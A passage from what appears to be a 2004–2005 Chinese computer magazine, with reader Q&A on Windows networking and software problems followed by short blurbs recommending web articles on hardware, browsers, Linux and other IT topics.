答：许多由VC设计的软件运行时需要MSVCP60.DLL组件的支持，如果提示MSVCP60.DLL出错，或提示无法找到该文件，就需要找一个该文件并将它复制到系统的“Windows\system”目录下，这种问题一般出现在Windows 98系统下，如果你在系统中安装了金山WPS Office、熊猫卫士网络版等软件或直接装上了VC系统，MSVCP60.DLL就被同时自动安装了。如果没有安装过这些大软件，到装好Windows 2000或XP系统的电脑的System32目录下复制一个该文件也可。

### 局域网中部分电脑不能访问同一网页
山东读者李洋才问：某局域网中的所有工作站，都是通过ADSL共享拨号方式接入Internet的，可是对于同样的网站页面，有的工作站能够访问到，而有的工作站却无法访问到。请问这是怎么回事？如何才能消除这种现象？

答：出现这种现象的原因很可能是各个工作站向Internet发送TCP/IP数据请求包时，其数据包的TCP/IP传输单元数值超过了PPPoE协议下的数据帧所能承受的范围，从而导致了PPPoE协议无法准确将TCP/IP数据请求包发送到指定的Internet站点中，这样网站页面自然就无法被打开。要想消除该现象，必须按照如下方法，来限制数据包的TCP/IP传输单元最大数值：
打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces]；在Interfaces分支右边的子窗口中，用鼠标右键单击空白区域，从弹出的右键菜单中依次执行“新建→双字节值”命令，并将新创建的双字节值名称设置为MTU，接着双击MTU键值，在弹出的数值设置窗口中选中“十进制”选项，并在“数值数据”设置项处输入1450，再单击“确定”按钮，最后按下键盘上的F5功能键，刷新一下系统注册表，就可以确保工作站正常访问网站页面了。

### 无线局域网连接难与掉线问题
海南读者高山松问：为什么我架设的无线局域网（WLAN）总是出现连接困难、通讯速度慢并经常掉线的问题？

答：一般情况下，无线设备连接困难、通讯速度慢和经常掉线的故障是由于使用不当引起的。主要原因有以下几个方面：
- 无线AP与网卡间的距离过长。
- 无线AP与网卡间有较大的障碍物阻隔。
- 网络线缆、天线线缆接触不良。
- 定向天线品质不佳。
- 天气原因或设备本身散热不佳导致设备过热进而影响使用。
- 缓存设置过小。
- 使用环境中存在工作在2.4GHz频段的微波设备，如微波炉等电器设备；这样会干扰无线网络设备的使用。

### 网卡与内“猫”冲突故障一例
山东读者刘建超问：我的电脑安装有Windows 98，使用PCI内置式Modem上网。为了上宽带，加装了PCI接口的10/100Mbps自适应TP-Link TF-3239D网卡一块。装好后再拨号，发现可以拨通ISP端，但任何程序都不能访问网络，Ping服务商的DNS服务器也Ping不通。请问这是什么原因？

答：很可能是内置PCI Modem与网卡产生了资源冲突（IRQ中断或者DMA资源），造成其中一个硬件不能正常通讯。
虽然基于PCI接口的大部分硬件都支持PnP，但并不是所有的该类硬件（特别是网络硬件）都能兼容资源共用分配模式，而是必须独占硬件接口资源才能工作。
发生冲突后，可以用如下方法尝试取消冲突：
- 将网卡和PCI内置Modem使用的插槽更换一下。
- 如果上面的方法无效，则完全卸载并拔出网卡和内置Modem，然后先装网卡，再装Modem及其驱动程序，让硬件接口资源重新在系统中得到分配，替换掉原来产生冲突的分配方式。

### Windows XP不支持NetBEUI协议吗
新疆读者阿虎问：我在使用一个软件时提示需要安装NetBEUI协议，我使用的系统是Windows XP，我找了找发现系统中没有提供NetBEUI协议，请问我该怎么办？

答：在Windows XP中，缺省的协议是TCP/IP，NetBEUI协议默认没有安装。如果你仍然需要NetBEUI协议，可以在Windows XP的CD光盘中找到。需要的安装文件是Netnbf.inf和Nbf.sys。安装方法如下：
首先以Administrator账号登录，把Windows XP光盘插入光驱，打开光盘下的Valueadd\MSFT\Net\NetBEUI目录，把Nbf.sys复制到%SYSTEMROOT%\System32\Drivers文件夹，把Netnbf.inf复制到隐藏的%SYSTEMROOT%\Inf文件夹。其中%SYSTEMROOT%为系统所在文件夹路径。
提示：显示隐藏文件夹的方法是在“工具→文件夹选项→查看”选项卡的“高级设置→隐藏文件和文件夹→显示隐藏的文件和文件夹”。
复制完这两个文件后，依次点击“开始→控制面板→网络连接”，用鼠标右键点击你准备安装NetBEUI协议的网卡，选择“属性”。在General选项卡下，依次点击“安装→协议→添加”，从列表中选择NetBEUI协议，并确定安装即可。

### IE出现指令引用内存地址错误
陕西读者胡飘问：我在使用IE浏览网页的过程中，系统出现如下错误提示：“0x70dcf39f”指令引用的“0x00000000”内存。该内存不能为“read”。要终止程序，请单击“确定”。关闭该提示信息后，IE浏览器也被关闭。

答：修复安装或升级IE浏览器为6.0版，同时打上系统补丁即可。

### 内网FTP服务器如何连接外网
内蒙古读者李扬问：我在局域网服务器上建立了FTP服务，想让Internet中的计算机也能访问内网的FTP服务器，应该怎样设置才行？

答：如果作为服务器的计算机有合法的公网IP，并且单位没有在防火墙上关闭FTP端口（TCP协议的21端口），那么直接就可以被Internet中的计算机访问到。
对于采用专线方式（如光缆、DDN、专线ADSL等）接入Internet的网络，如果拥有合法的静态IP地址，但作为服务器的计算机没有合法的公网IP地址，而是通过代理服务器或路由器的NAT方式共享Internet连接，就需要在Windows连接共享、代理服务器软件（SyGate、WinGate或ISA）或路由器上作端口映射（PAT），将端口号映射到服务器的IP地址，使得Internet用户在访问某端口时将相关请求转发到对应服务器上。
对于局域网采用动态IP地址（如虚拟拨号ADSL）的上网方式，还必须在代理服务器上安装动态域名系统（如花生壳、个人服务器伴侣、DIPDNS等），最后设置端口映射。

### 无法显示网页源文件的问题
- 当浏览器的缓存被装满时，“查看源文件”功能将失效。你可以在IE窗口中选择“工具→Internet选项→常规→Internet临时文件”，然后单击“删除文件”按钮。
- 用JavaScript脚本语言编写的一些网页会导致“查看源文件”功能失效。
- 注册表设置被更改。打开注册表编辑器，找到[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions]，在右侧窗格中找到一个名为NoViewSource的值，如果当前的数值数据设置为1，则双击它，将数值数据更改为0。
- 注册表中设置的调用程序不正确，也可导致“查看源文件”功能失效。打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\View Source Editor\Editor Name]，如果该键存在，右边窗口中所显示的默认“数值名称”应该是记事本程序的完整路径，一般为C:\Windows\notepad.exe。如果该键不存在，可先确定记事本程序的正确位置再对该键值进行修改。

### 系统不能自动下载Flash插件
江西读者沈卫问：最近重装了Windows 98，在浏览网页时一些动画看不到了。以前连接到Internet时如果有Flash动画需要显示，系统会自动下载一个Flash插件，而现在则不会出现这种情况。请问这是什么原因？我该怎么办？

答：网页上的动画大多是Flash和GIF格式的。播放GIF动画需要把IE的“Internet选项”中的“播放动画”打开，而播放Flash动画则需要安装Flash插件。如果安装的是它的老版本插件，则现在许多用新版Flash制作的Flash动画就不能被打开，而且在某些系统中也不再像以前那样提示下载Flash插件。这时你可以从http://www.xichang.tv/InstallFlash6ax.exe下载Flash插件进行手动安装。

### 大量下载时的ADSL掉线故障
河南读者赵淑问：最近我发现，当浏览Internet网页时，ADSL Modem工作一切正常，可当下载信息量较大的程序时，ADSL Modem却不断出现掉线并重启现象。请问这是什么原因造成的？如何解决？

答：这种现象大多是安装在当前系统中的网卡驱动对ADSL Modem使用到的拨号协议——PPPoE协议支持不好引起的。要消除这种现象，你不妨检查一下当前的ADSL Modem设备是否包含了内置拨号功能，倘若支持的话，你最好将这个功能启用，这样日后进行拨号上网时，就不需要在系统中安装额外的拨号程序了，而且还能有效节约系统资源。
倘若ADSL Modem设备本身就使用了内置的拨号功能来上网，那你就要检查一下当前计算机系统是否启动了其他防火墙软件或代理服务器软件，要是已经启用的话，那么ADSL Modem的工作就可能会受到干扰，此时你应该将这些软件统统关掉。

### 无法使用网上银行
问：我的系统是Windows XP SP2，重装系统后也没有安装什么其他的软件。打开IE要登录工商银行的网上银行时，总是显示网页上有错误，而在另一台电脑上同一时刻却可以正常使用。请问这是什么原因？

答：第一次在系统中打开网上银行网页时必须要下载并安装一个客户端插件程序（一般都是ActiveX插件），否则无法正常使用网上银行的功能。ActiveX插件经常被一些木马、病毒利用来攻击，所以Windows XP SP2的默认安全级别设置得比较高，它会自动监控插件程序并将其拦截。你可以按下面的方法暂时开启安装ActiveX功能：单击IE浏览器菜单“工具→Internet选项”，在打开的窗口中选择“安全”选项卡，再单击“自定义级别”按钮，在打开的安全级别设置窗口中将“重置自定义设置”项设置为“安全级-低”，最后单击“重置”按钮。再次打开网上银行页面即可安装相应的银行客户端插件程序了。安装完毕后再次将IE安全级别设置为高即可。其实，现在有很多插件屏蔽程序，为了方便，我们可以将系统的插件屏蔽程序禁用掉，然后使用专门的插件屏蔽程序，例如上网助手（下载地址：http://dl.3721.net/download/assist4.exe），它可以智能地屏蔽一些网站上的插件程序，诸如网上银行的客户端插件程序等被上网助手列入白名单而可以自由地安装，而其他一些网站的插件程序会自动被屏蔽，屏蔽后要再安装它们，只要在上网助手中的插件管理器中再次安装它们即可，操作起来非常方便。

### 两台电脑收邮件的问题
问：我上班时在公司有一台电脑，家里也有一台电脑。两台电脑中都使用Foxmail收邮件，现在出现了这样的问题，那就是在公司的电脑中收完了邮件后，在家里的电脑中就无法再收取这封邮件了。我想达到这样的要求：在公司（家里）中收了的邮件，在家里（公司）的电脑中同样可以收到，不知能不能达到这要求？

答：你只要在Foxmail中设置保留邮件服务器上的备份即可：右击Foxmail主窗口中左侧的邮箱账号，选择“属性”，在打开的窗口中再选择“接收邮件”图标，然后再勾选右侧窗口中的“在邮件服务器上保留备份”项，最后单击“确定”即可。按照这样的设置将你家里的电脑和公司的电脑中的Foxmail都设置成在邮件服务器上保留备份。

### 取消FlashGet的下载限制
问：我在使用FlashGet下载文件时，每次只能启动三个下载任务。我想让它同时下载多个文件，能不能实现？

答：打开FlashGet，在主窗口中单击菜单“工具→选项”，然后在打开的“选项”窗口中选择“连接”选项卡，在“限制”框中将“最多同时进行的任务数”设置为你想要的数字即可（最大为8）。

### Firefox新链接用标签页形式打开
问：我使用Firefox浏览器，现在我将其从以前的V1.0升级到V1.01。升级后，单击新链接时打开一个新的窗口。我希望点击新链接时以新的标签窗口打开，不知道如何设置？

答：打开Firefox浏览器，然后在地址栏中输入“about:config”，然后找到browser.tabs.showSingleWindowModePrefs配置项，双击之将其值改为“true”，最后再单击“工具→选项”，选择“高级”项，选择“强制打开新窗口链接”项，再选择“新标签页”选项，最后单击“确定”即可。

### MSN不显示联系人的头像
问：我的系统是Windows XP SP2，安装了MSN Messenger 6.2。一次系统感染了病毒，我用杀毒软件对系统杀毒后，发现MSN Messenger中不再显示联系人的头像了。请问该如何解决？

答：这可能是病毒感染系统后导致的。你只要这样设置一下即可解决问题：单击主窗口中的菜单“工具→选项”，在打开的设置窗口中选择“个人信息”选项卡，勾选“在即时消息对话中显示来自他人的显示图片”项，最后单击“确定”保存设置即可。

## “烧”出天籁般的声音 用电脑制作DVD-Audio

DVD-Audio是音频再生技术发展史上的一次超越。从双声道角度来说:与CD的16bit/44.1kHz取样频率相比，DVD-Audio的24bit/192kHz取样频率，无论是取样频率还是量化精度都比CD高出一大截。可以完美再现演奏现场的真实感，无论是音乐大厅氛围，还是乐章宏大的气势都可以真实再现，甚至连寂静场景下发出的细微音响也能真实地还原。看了介绍是不是就想马上动手制作？先别忙，你还在使用主板集成声卡？可以不用看了，本文对你意义不大。你怕麻烦？不用看了，仅阅读本文就会让你产生疲倦感。如果你有块高档声卡，并且电脑速度足够快，又还喜欢DIY，碰巧你又是个音乐发烧友，不要再等了，打开你的浏览器，输入网址，去细细品味《DVD-AUDIO的电脑制作浅析》吧。文章链接: http://hardware.mydrivers.com/pages/200412061435_52593.htm

## 天空为什么是蓝色的？

第二个登上月球的人是谁？天空为什么是蓝色的？最大的数字是？它存在吗？它的名字是什么？这些奇怪的问题在哪里可以找到答案？《十万个为什么》吗？不必了，著名的搜索引擎Google就能帮你！文章链接: http://gfans.org/psas-list/

## IT评测 谁都能做

菜鸟眼中的评测——权威、专业、高端、神秘。而如今的电脑硬件名目繁多，质量也是参差不齐。如何让自己能明明白白地买个称心，用得省心，除了我们应具备一些基本的硬件常识外，就要用一些软件来帮我们的忙，才能对诸如“硬盘有多快？内存是不是假货？显卡可以玩极品飞车7吗？”等等问题了如指掌。而本文就介绍了多种电脑评测软件，让你买得放心，用得舒心，而且从此进阶为一位准硬件专家。文章链接: http://publish.it168.com/2004/1202/20041202001901.shtml?cPositionCode=618&cChannel=22

## 让每个人都成为博客

前些日子微软推出了MSN博客测试服务，每个用户免费拥有10MB空间，可以与大家一起共享图片、音乐，还可以使用移动设备通过发送电子邮件的方式来自动更新Blog。赶快建立自己的博客吧！文章链接: http://article.pchome.net/2004/12/07/31536.htm

## 无痛苦试用Linux

都说要学Linux很难，毕竟又要分区又要安装，对于菜鸟来说还真有点麻烦，但越是这样，还就是有很多人想去试试它。那么如何在电脑上保留安装好的Windows，在不破坏分区的前提下，体验Linux呢？Knoppix Linux就是为了解决这个问题而诞生的。你下载Knoppix的ISO后，只要用Nero将它刻成光盘，然后用这张光盘引导电脑，就可以开始我们的Linux之旅了……下载地址: http://www.thg.com.tw/howto/04q1/040311/index.html

## 到底谁是 “鼠标王中王”

罗技MX1000和Razer的Diamondback，两款顶级的鼠标，它们到底谁强谁弱？到底哪款适合你呢？本文会为你解答这个疑问。这篇文章最大的特色就是“数据+应用”的评测方法，在文章中不仅可以看到那些传统评测的数据、名词、对比表格，还能看到编辑们是如何用一些大家常用的软件对鼠标进行评测的(居然连Photoshop都用上了)，虽然后面的应用评测方法有些主观，但更贴近实际应用。看完文章后，你应该很清楚地知道哪款鼠标更适合自己了。反正小特看完后立刻去了中关村——罗技的MX1000居然卖500多，好贵呀……文章链接: http://www.pconline.com.cn/diy/front/evalue/other/0411/502320.html

## 2004年，是谁动了你的电脑？

2004年很快就过了，想一想，算一算，你的系统因为病毒、木马重装过几次？不说别人，仅小编就因为病毒重装过三次以上系统。冲击波、震荡波、木马、黑客、恶意代码、还有网银大盗、证券大盗……每一个新病毒、新恶意程序的出现，几乎都会引起一场不小的波澜！看完这篇文章你立刻就会回忆起那痛苦的一幕。文章链接: http://publish.it168.com/2004/1210/20041210506601.shtml?cPositionCode=726

## 国产CS游戏 “顶”你没商量

国内的“牛人”就是多，居然有个人自己独立开发出了一款CS类的FPS(第一人称射击)游戏。该游戏是使用Visual Basic 6.0+TrueVision 3D引擎编写的。与DOOM3、HL2这些大游戏相比，这款软件的画面自然要逊色得多，但它是国内第一个独立制作的FPS作品，而且游戏大小只有57MB。目前这款游戏可以免费下载，有兴趣的朋友不如“顶”(网络流行语，“支持”的意思)一下这款游戏。文章链接: http://www.winspy.net/dw2.asp

## 警惕手机病毒 带乱码来电别乱接

手机遭遇病毒的消息你可能经常听到，但在这个元旦、春节期间，你要格外小心：短信、下载文件、红外、蓝牙等无线网络连接方式都是病毒传播方式。随着手机应用的逐渐普及，相信手机病毒大规模“普及”的日子不远了。为了避免过早成为手机病毒“超级小白鼠”，还是小心为妙吧。文章链接: http://publish.it168.com/2004/1213/20041213001201.shtml?cPositionCode=726

## 4元低价DVD刻录盘 到底选哪家？

好马配好鞍，DVD刻录机价格再便宜也算是个娇贵的东西，相信没有人会拿劣质盘片来蹂躏它。本文将目标锁定在4元价位以下的刻录盘片，会帮大家找出廉价盘片中的极品，这应该是市场中可以找到的低价位主流产品。在粗略地转过市场后，可选择的产品有近百种。最后在商家的推荐下，该文作者选择了其中40款比较正规的DVD盘片，用来进行测试。看过此文之后，你不仅会对整个DVD刻录光盘市场有所了解，而且还会清楚地知道你到底应该买那个品牌的光盘。文章链接: http://search.intozgc.com/news/5/200411/05-45549-20405452805.html

## 嘿！就是这只 “老狐狸”

IE的漏洞越来越多了，微软在为这事头痛的时候，一只“火狐狸”(FireFox)突然出现，它具有强大的广告过滤功能，并且拥有很多方便实用的功能，让越来越多的人对它爱不释手。它能够扮演IE终结者的角色吗？去试用一下吧。文章链接: http://bj.beareyes.com.cn/2/lib/200411/26/20041126202.htm

## 绝对经典！全美TOP100演讲！

水平不错，经常浏览一些优秀的英文IT网站，电脑水平飞速提高！文章链接: http://www.americanrhetoric.com/top100speechesall.html

## 86件Firefox浏览器能，而IE不能做的事

如果有一个浏览器的功能比IE多86项以上，你会不会考虑它？11月9日，就是Firefox 1.0正式版全球发布的一天。在网上看这条新闻，IM上遇见某君，问我道：“先生可为Firefox整理了一点什么没有？”我说没有，他就正告我，“还是整理一点罢，很多朋友是很爱用Firefox的。”文章链接: http://www.newhua.com/cfan/200501/tips.htm

## 多图披露XP SP2制作全程

关于Windows XP SP2是什么之类的问题的答案相信已是无人不晓。大家都知道，Windows XP SP2的获取方式有很多，比如网上下载、自动更新、免费邮寄CD、OEM提供等。时至今日，很多人都见过XP SP2 CD的真面目了，但见过“批量生产”过程的朋友应该不多。下面这篇文章将提供9张图片，逐一为你展示Windows XP SP2 CD的制作流程。文章链接: http://www.pconline.com.cn/pcedu/softnews/yejie/0412/507260_1.html

## 搜索高手从这里开始

很多人在电脑出现问题时就会手足无措，总是习惯地需要高手来指教。那么，为什么高手们总是能很快地找到相关的解决方案呢？难道他们真的是“百事通”吗？非也！下面的两篇文章是前辈们总结的Google使用技巧，如果精通了里面的东西，相信你离高手就不远了。Google搜索入门到精通: http://www.9238.net/stone/google40.htm Google 的特殊功能: http://www.google6.com/more.asp?name=news&id=81&iscomment=true

## 端口基础常识大全

80端口、21端口都代表什么意思？计算机有多少个端口？这些问题也许一直困扰着你。很多网络应用文章对于端口的概念和使用都是一笔带过，也许恰恰因为你对这些基础知识不了解，而不能理解文章所写的内容，那就请你补充一下端口及其相关的基础知识吧！文章链接 http://bbs.cfan.com.cn/index.php?showtopic=118309

## 拼了！将PSP一拆到底

传说中的PSP终于出现了，强呀！它是编辑部里小特近期强烈关注的东东，不过当小特还在思考最佳购买时机时，已经有网友开始玩拆机了。据说PSP中的零件哪怕有0.1mm的形变，也会造成PSP外形的变化，真强呀，小特的口水已经把编辑部淹没了……文章链接: http://www.pconline.com.cn/digital/audio/news/mp3/0412/513104_1.html

## Netscape携双内核再度出击！

网龄少于4年的朋友可能对Netscape一无所知。但是，你可以不知道它，但你必须尊敬它。在1998年前后，几乎所有上网的电脑中都装有Netscape和IE两套浏览器；问问网龄近十年的老鸟们，他们很可能兴奋地为你描述第一次使用图形界面浏览器上网的经历，那是绿色的Netscape Navigator。后来的事情你应该有所了解，Netscape逐渐走向衰落，但这次它不一样了，因为它已经支持了IE核心！文章链接: http://www.pconline.com.cn/pcedu/pingce/0412/510762.html

## 《国家地理》杂志评出2004年十大离奇发现

真理有时候比小说还让你觉得奇怪。不信的话，关注一下全世界的科学家们每年都会公开的那些离奇发现吧。《国家地理》杂志的编辑们评选出的 2004 年的十大离奇发现，当然排名并不是根据这些发现的科学影响力，而是它们的离奇程度。毒蛇、巨蟒、外星人，这些听起来有点恐怖的词汇构成了2004年的离奇主题。文章链接：http://www.cnetnews.com.cn/news/life/story/0,3800057983,39326164,00.htm

## 电子地图帮你解忧

当踏上一个陌生的城市，却找不到自己要去的地方；想要去住宿，却不知该选择哪家宾馆；想到某个景点，却找不到最便捷的线路；即使在自己常年生活的城市，要去一个从未到过的地方，该怎么坐车呢？本文将对网络上比较常用的电子地图进行全面介绍。文章链接：http://www.pconline.com.cn/comm/zt/map/index.html

第二期

## 我发现了一个 Photoshop 笔刷大宝库！

看过去年 22 期《看我怎么修理你——Photoshop 图像处理一日通》后，相信你已经对Photoshop 的笔刷有了感性认识，通过各种各样的笔刷，即使不会绘画和作图也能快速做出一流的作品，而这个网站提供了大量精彩的笔刷资源，快去下载吧！文章链接：http://annikavonholdt.com/brushes/index.html

## 混充PhotoShop高手请用这10个白金秘技

有时是否觉得自己辛苦做出来影像处理的作品，太过单调平淡，看起来还是很生涩的感觉？或是印出来的作品，总是在质感上有所欠缺？要做出职业水准的作品，是需要一点天份，和长时间的美术训练，也就是底子要厚才行。但若想沾点皮毛，靠着一招半式闯闯江湖，骗口饭吃，请看看这10个白金秘技吧。文章链接：http://www.eplug-cg.com/2_soft/2d_03.htm

## 对 Linux 感兴趣？这里给你一个全面了解它的机会

一些读者对于 Linux 感兴趣，希望我们杂志多介绍一些这方面的内容，其实你可以先到这里来看看，内容很丰富，分类也很清晰，可以扫除不少使用 Linux 的疑惑。文章链接：http://www.zdnet.com.cn/biztech/os/story/0,2008003728,20006281,00.htm

## 爱好者个性金条上市啦！

想不想获得一根印有你自己名字的金条？没有钱？没关系，登录下面的网站看看吧，“爱好者”金条已经上市了！第一次连上这个网站的时候，还以为是新浪的新闻网页呢，仔细一看，原来……提示一下：请注意网页下方！文章链接：http://www.brandworks.com.cn/ains/2004-12-2015145276305.html?bbname=%B0%AE%BA%C3%D5%DF

## 边聊边玩

如今使用各种即时通讯软件来进行交流的朋友越来越多，大家理所当然地认为像QQ、MSN这样的IM(即时通讯)软件是用来聊天的，否则怎么能称之为即时通讯软件呢？但你可曾留意到这些即时通讯软件新的游戏功能，由于我们经常使用这些即时通讯软件，在这上面与自己的好友玩玩游戏是件非常惬意的事。正是由于聊天软件有了游戏的功能，我们的娱乐才更别致、更精彩！文章链接：http://www.enet.com.cn/eschool/inforcenter/A20041223375231.html

## 爱护你的移动硬盘

现在许多朋友都装备了移动硬盘，但它是一个非标准的USB设备，使用中远不如鼠标这样可靠，问题多多，为了让它更好地为你服务，请赶快来看看这篇文章吧，它对一些常见问题进行了解答，比如：如何解决供电不足、如何让它跑得更快、如何对待它的磁盘碎片等。文章链接：http://community.csdn.net/Expert/topic/3366/3366318.xml?temp=.3128321

## 网上银行逐个看

网上支付最大的优点就在于它能够即时到账、交易周期最短，用它来购买商品，顾客一般第二天就能收到商品，而在同样的站点买同样的商品如果用邮政汇款则需要差不多一个星期。当然，它也有一个“缺点”——如果你的自制力不够强，一见到喜欢的东西就忍不住“一点就买”，结果账上的余额如行云流水般飞速流失……这篇文章详细地介绍了各家网上银行的特色并以实战的形式介绍了不同网络银行的操作方式。文章链接：http://www.it.com.cn/f/edu/0411/14/47088.htm

## 网络流传的微软面试题

企业为什么要面试？这是企业了解应征者对工作态度以及身在社会中一些必备常识的最好方法，如果一问三不知，是没资格当社会中坚分子的，假若想要有立即回答的本事，那么平常就应多注意媒体报导，特别是关于希望进入业界的消息！在笔试、面试和实地考察等招聘方式中，面试是反映应聘者能力的一种重要手段。网络中流传着很多大公司的面试题，虽然每家公司的问法都是千变万化的，但万变不离其宗，所谓"运用之妙，存乎一心"，掌握了常规的方法技巧，面试当然会马到成功的。文章链接：http://www.enet.com.cn/eschool/inforcenter/A20040409301129.html

## 别人眼中的去年十大IT事件

纵观 2004 年的IT 市场，或许有很多事情值得我们去关注。本文就是PCPOP评选的2004年IT十大重要事件。相关链接：http://www.pcpop.com/hard/04/12/56790/1.shtml

## 远程控制原来如此简单

一提起“远程控制”，很多人就自然而然地想到木马、后门，病毒程序。可实际上远程控制可以帮助人们很方便地解决很多麻烦的问题，原先需要大老远跑上门才能解决的问题，现在有了网络就变得很方便。可是远程控制究竟应该怎么玩呢？对于初学者来说又是一个难题，解决难题的方法当然是从网上获取相关的技术资料，这里就有一篇非常详细的。文章链接：http://www.enet.com.cn/eschool/inforcenter/A20040215286398.html

## 拒绝绑架 HiJackThis 应用专题

HiJackThis 相信你曾在我们杂志中看到过，这款软件可是网络防改、防黑、防首页绑架的绝好工具，不过许多人并没有熟练的掌握它。仅仅是使用了一些皮毛。如果完全掌握了HiJackThis 的使用，就能立刻晋级为高手行列，你可以用它的日志分析出系统的很多问题，再一点点找出问题所在。即使你不知道如何解决，只须将软件生成的日志文件发布在论坛中，其他高手就能很容易地分析出问题原因，帮你快速排障。这款软件的应用我们已经在 2004年介绍过，而这里为大家介绍的是由几个高手合力完成的HiJackThis 应用专题，它详细介绍了HiJackThis的使用方法及日志项目含义。文章链接：http://it.rising.com.cn/newSite/Channels/anti_virus/Antivirus_Faq/TopicExplorerPagePackage/hijackthis.htm

## 珍藏吧！Windows 进程大全

打开Windows的“任务管理器”，在“进程”选项卡中有一大堆当前正在运行的进程，但是普通人很难分辨出这些进程的来历，哪些是Windows正常的进程，哪些又是木马、病毒的进程，于是进程便成了各大软件论坛中经常被提起的话题。如果你也有这样的疑问，以下三个网页中的内容绝对值得你珍藏下来，因为它们包含了几乎所有常见Windows 和软件的进程。
http://community.csdn.net/Expert/topic/3261/3261556.xml?temp=.7187158
http://community.csdn.net/Expert/topic/3261/3261563.xml?temp=.8008692
http://community.csdn.net/Expert/topic/3261/3261567.xml?temp=.8717157

## 另类评测：谁是文件传输最快的 QQ 版本

很多人没有想到吧，不同QQ版本之间的文件传输速度居然不同，而且差距还相当大，如果你经常需要用QQ 为好友传送文件，那不妨来看看这篇文章吧，这样就可以选择到最合适的版本了。文章链接：http://www.pconline.com.cn/pcedu/pingce/0412/514019.html

## 到底谁才是王牌内存清洁工

内存优化工具是很多人不爱使用的东东，但对于那些电脑越用越慢的用户它可是个宝。一些程序由于BUG的原因，即使关闭，内存也不能完全释放。那么到底选择哪一款软件来进行优化呢？本文就针对六款非常知名的内存优化软件进行了评测，找到其中的王牌内存清洁工。不过，我们曾经介绍过，对内存优化软件认识的一些误区，比如：小内存的电脑最好不要使用此类软件等，建议配合一起读一下。文章链接：http://publish.it168.com/2004/1214/20041214503001.shtml?cChannel=22&cPositionCode=613

## 思科路由器配置命令大全

一个合格的网管应该对其所管理的路由器的配置命令了如指掌，在进行配置时才能“如入无人之境”般的游刃有余。而思科(Cisco)路由器作为路由器行业的老大，其命令集也被许多同类产品所兼容，所以如果熟悉思科路由器的配置命令，那么对其他路由器应该也不成问题。此文就将思科路由器的所有命令一一列出，并给出了中文的功能解释，非常具有参考价值。文章链接：http://www.pconline.com.cn/pcjob/nettech/cisco/others/0412/506160.html

## 你是最危险的网管吗？

你本身从事的是网管工作吗？你是否就是本文提到的七类最不安全网络管理员中的一员呢？看完文章后，也希望你可以改变一些网管坏习惯，说不定你的工作也会轻松不少。文章链接：http://www.enet.com.cn/eschool/inforcenter/A20041220373745.html

## 那些 IP，你为什么不能用？

在设置网络时，很多菜鸟都会问，为什么不能用0.0.0.0呢？为什么高手解决故障时，要 Ping 127.0.0.1呢？还有局域网里的IP地址为什么要设置为192.168.XXX.XXX呢？我们来看看那些特殊的 IP 地址吧。文章链接：http://www.pconline.com.cn/pcedu/soft/gj/media/0412/518622.html

## 珍藏硬件壁纸

ATi 与nVIDIA，这两家在 3D 显示技术的顶尖公司，在各个市场都进行着激烈的争夺。

从独立显示芯片到主板芯片组，再到游戏机的图形处理核心。甚至针对自己的每一款显示芯片，两家公司都提供了相应的壁纸，连用户的桌面都不放过。

文章链接：
http://www.pcpop.com/vga/04/12/55734/1.shtml
http://www.pcpop.com/vga/04/12/55673/1.shtml

## DIY 就要自己动手

现在装电脑已经像搭积木一样简单，DIY也似乎成了没有技术含量的代名词。但DIY高手却说，DIY不仅仅是搭积木，还要自己造木。我们收集了一批“DIY”达人改造电脑的现场实况图片。看着达人们在抛洒智慧的同时，幸福地将原本普普通通的电脑，改装得异常地流光溢彩，极具档次的情景，相信大家已能从中领略到“DIY”的精髓。

文章链接：
http://www.pcpop.com/hard/04/12/56487/1.shtml
http://www.pcpop.com/power/04/12/56360/1.shtml

## Pentium 4E 开启 64 位处理能力？

很早以前就有人怀疑，Intel的所有Prescott处理器中都隐藏有提供64位计算技术的EM64T功能，只是Intel只在售价昂贵的Pentium 4F处理器中才开启了EM64T技术。而我们平时购买的Pentium 4E处理器中则屏蔽了这个功能。现在，某厂商的865PE-LGA775工程样板成功开启了Prescott处理器隐藏了的EM64T功能，还能修改CPU的倍频。

文章链接：
http://www.gzeasy.com/sparticle.asp?Title=Pentium4+520+%C1%E3%CA%DB%B0%E6%B3%C9%BE%A6%BF%AA%C6%F4+EM64T

## 显卡风云录：回忆曾经的经典之作

当前的桌面显卡市场已经成为一个群雄割据的大陆，各个厂商都竭力推崇自己芯片的板卡，这使得板卡的更新速度越来越快，许多当年叱咤风云的显卡厂家早已隐退江湖，本文将近些年200多种显卡分类的评测数据进行整理，并对10个品牌的显卡的历史进行评述，希望能够使那些对市场上不同桌面显卡感兴趣的朋友们得到更多的参考和帮助！

文章链接：http://art.itdoor.net/pages/14,27276,1,1099363846.html

## 苹果迷假想下一代iPod

iPod的工业设计一直是MP3随身听中最“强”的，这点是谁也不能否认的，不过iPod也“大”出了一小部分人，外观改变并不是很大，也许这就叫经典设计。但看多了总会有“审美疲劳”，因此一些网友，特别是发烧的苹果迷们设计了一些下一代iPod的假想图，彩屏、全触摸屏幕、自带音响……甚至激光全息投影等，更多创意还是看链接吧。

文章链接：http://www.pcpop.com/mp3/04/12/56677/1.shtml

## GeForce 6200TC测试篇

PCIE主板和显卡市场的初期反映都并不理想，原因是多方面的，但是其中最为关键的一点就是市场上的PCIE显卡和AGP显卡相比，性能、功能上似乎都不占优，但是价格上却要贵不少。现在，nVIDIA发布GeForce6200 TC显卡，定位于主流消费人群，目标就是替代GeForce4 MX440/GeForceFX 5200等低端显卡。那么GeForce 6200 TC性能如何呢？请看链接。

文章链接：http://www.gzeasy.com/sparticle.asp?Title=GeForce+6200TC%B2%E2%CA%D4%C6%AA

## 机箱是如何炼成的

机箱看起来很简单，不就是几块金属板吗。但好机箱要耐看、符合电磁标准、坚固、实用……一款符合要求的机箱到底是如何制造的呢？看下面的文章就知道了。

文章链接：
http://www.icooler.net/tech/content.asp?code=31&topic=1
http://www.icooler.net/tech/content.asp?code=32&topic=1
http://www.icooler.net/tech/content.asp?code=33&topic=1

## 第三期

## 什么？居然可以“画”出照片！

这个世界真是什么牛人都有，居然连照片都“画”得出来，如果不告诉你，你一定不相信Photoshop可以画出图来，如果你要是能画出来，相信你已经是个Photoshop宗师级人物了。

文章链接：http://www.enet.com.cn/eschool/inforcenter/A20050105378991.html

## 100KB的在线词霸搜索软件最新发布

